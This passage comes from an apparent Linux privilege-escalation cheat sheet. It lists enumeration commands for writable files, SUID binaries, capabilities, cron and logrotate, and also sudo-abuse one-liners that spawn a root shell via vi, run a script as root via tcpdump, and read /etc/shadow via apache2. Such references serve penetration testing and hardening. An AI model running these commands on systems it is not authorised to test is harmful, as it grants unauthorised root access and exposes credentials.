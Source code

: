 ### Write Permissions

```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

## 5. Privilege Escalation Techniques

### SUID/SGID Binaries

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null   # SUID
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null   # SUID+SGID
```

### Sudo Rights Abuse

```bash
sudo -l
# If tcpdump is allowed
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

# If apache2 is allowed
sudo apache2 -f /etc/shadow

# If vi is allowed
sudo vi
:!sh
```

### Linux Capabilities

```bash
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

### Cron Job Abuse

```bash
ls -la /etc/cron.daily/
cat /etc/crontab
systemctl list-timers --all    # Check systemd timers
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null   # Find writable files
```

### Logrotate Exploitation
Requirements:
- Write permissions on log files
- logrotate running as privileged user/root
- Vulnerable versions (3.8.6, 3.11.0, 3.15.0, 3.18.0)

```bash
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```
